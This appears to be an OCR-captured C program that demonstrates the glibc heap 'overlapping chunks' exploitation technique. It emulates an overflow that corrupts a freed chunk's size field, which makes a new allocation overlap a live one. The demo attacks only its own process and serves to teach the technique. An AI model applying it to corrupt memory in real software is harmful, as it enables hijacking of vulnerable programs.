 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
    unsigned int real_size_p1,real_size_p2,real_size_p3;
    unsigned int real_size_p4,real_size_p5,real_size_p6;
    int prev_in_use = 0x1;

    p1 = malloc(0x10);
    p2 = malloc(0x80);
    p3 = malloc(0x80);
    p4 = malloc(0x80);
    p5 = malloc(0x10);
    real_size_p1 = malloc_usable_size(p1);
    real_size_p2 = malloc_usable_size(p2);
    real_size_p3 = malloc_usable_size(p3);
    real_size_p4 = malloc_usable_size(p4);
    real_size_p5 = malloc_usable_size(p5);
    memset(p1, 'A', real_size_p1);
    memset(p2, 'A', real_size_p2);
    memset(p3, 'A', real_size_p3);
    memset(p4, 'A', real_size_p4);
    memset(p5, 'A', real_size_p5);
    fprintf(stderr, "Now we allocate 5 chunks on the heap\n\n");
    fprintf(stderr, "chunk p1: %p ~ %p\n", p1, (unsigned char *)p1+malloc_usable_size(p1));
    fprintf(stderr, "chunk p2: %p ~ %p\n", p2, (unsigned char *)p2+malloc_usable_size(p2));
    fprintf(stderr, "chunk p3: %p ~ %p\n", p3, (unsigned char *)p3+malloc_usable_size(p3));
    fprintf(stderr, "chunk p4: %p ~ %p\n", p4, (unsigned char *)p4+malloc_usable_size(p4));
    fprintf(stderr, "chunk p5: %p ~ %p\n", p5, (unsigned char *)p5+malloc_usable_size(p5));

    free(p4);
    fprintf(stderr, "\nLet's free the chunk p4\n\n");

    fprintf(stderr, "Emulating an overflow that can overwrite the size of chunk p2 with (size of chunk_p2 + size of chunk_p3)\n\n");
    *(unsigned int *)((unsigned char *)p1 + real_size_p1) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; // BUG HERE 

    free(p2);

    p6 = malloc(0x1b0 - 0x10);
    real_size_p6 = malloc_usable_size(p6);
    fprintf(stderr, "Allocating a new chunk 6: %p ~ %p\n\n", p6, (unsigned char *)p6+real_size_p6);

    fprintf(stderr, "Now p6 and p3 are overlapping, if we memset(p6, 'B', 0xd0)\n");
    fprintf(stderr, "p3 before = %s\n", (char *)p3);
    memset(p6, 'B', 0xd0);
    fprintf(stderr, "p3 after  = %s\n", (char *)p3);
}
\end{verbatim}

